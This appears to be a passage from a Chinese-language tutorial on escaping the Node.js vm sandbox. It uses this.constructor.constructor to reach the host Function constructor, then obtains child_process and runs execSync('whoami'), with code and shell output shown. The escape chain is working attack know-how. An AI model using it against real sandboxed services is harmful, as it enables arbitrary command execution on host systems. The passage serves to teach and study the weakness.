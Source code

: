 `vm.runInContext(code, context)` **返回的是在该 context（沙箱 realm）中求值后的结果**。这个结果可以是任意 JavaScript 值：原始类型（number/string/boolean/null/undefined）、对象字面量、函数、Proxy、Error 等。

我们需要利用的是：如果返回的是对象/函数/Proxy/带 getter 的东西，宿主进程获得的并不是“值的拷贝”，而是**指向沙箱中那个值的引用**，因此可能导致回调/钩子在宿主上下文被触发。

#### 借助上下文对象逃逸

vm沙箱逃逸需要借助其自带类型：**上下文对象（contextify）**。在 Node.js 中，上下文对象是一个被严格限制的独立作用域容器，其本质上就是一个普通的 JavaScript 对象。它的作用是让 `vm` 执行的代码只能访问这个对象内部的属性，无法直接访问外部的全局变量。[vm 虚拟机 what-does-it-mean-to-contextify-an-object| Node.js v24 文档](https://nodejs.cn/api/vm.html#what-does-it-mean-to-contextify-an-object)

`Function` 对象提供了用于处理函数的方法。在 JavaScript 中，每个函数都是一个 `Function` 对象。`Function`的构造函数十分特殊，直接调用此构造函数可以动态创建函数，就像`eval()`一样， 但其创建的函数只能在全局作用域中运行。这给了沙箱逃逸先决条件。[Function - JavaScript | MDN](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Function)

基于此，在具体情况下，可以实现：

```js
console.log( vm.runInNewContext(`this.constructor.constructor("return 1")()`) );
```

执行此代码得到结果：

```js
1
```

在不指定自定义上下文时，`vm.runInNewContext` 的默认上下文是一个空对象 `{}`，因此代码中的 `this` 始终指向这个空对象 `{}`，而这个上下文对象是不属于沙箱环境的；`this.constructor`是上下文对象的构造函数（`{}.constructor === Object` 为 `true`），`this.constructor.constructor`是上下文对象的构造函数对象的构造函数，由于上下文对象的构造函数是`Object`，`Object` 本身是一个函数（`typeof Object === 'function'`），而所有函数的构造函数都是 `Function`（`Object.constructor === Function` 为 `true`），所以最终`return 1`会被当作语句执行.

注意在此处不能写作`this.constructor().constructor("return 1")`，因为这里要调用的是`Function`的构造函数，而不是`Object`的构造函数。

接下来只需要找到一些可利用函数就可以实现其他操作。

在Node.js中存在`node:child_process` 模块，其提供了以与 `popen(3)`类似但不相同的方式生成子进程的能力，而主要的是通过调用`child_process`对象的一些方法可以实现命令运行。

`child_process.execSync(command[, options])`是一个创建同步进程的方法。可以借助该方法进行恶意操作。[child_process 子进程 | Node.js v24 文档](https://nodejs.cn/api/child_process.html#child_processexecsynccommand-options)

在Node.js的Shell环境中：

```js
> vm.runInNewContext(`this.constructor.constructor("return child_process")()`)
{
  _forkChild: [Function: _forkChild],
  ChildProcess: [Function: ChildProcess],
  exec: [Function: exec],
  execFile: [Function: execFile],
  execFileSync: [Function: execFileSync],
  execSync: [Function: execSync],
  fork: [Function: fork],
  spawn: [Function: spawn],
  spawnSync: [Function: spawnSync]
}
> const esc = vm.runInNewContext(`this.constructor.constructor("return child_process")()`);
undefined
> esc.execSync('whoami').toString()
'lamaper\n'
```
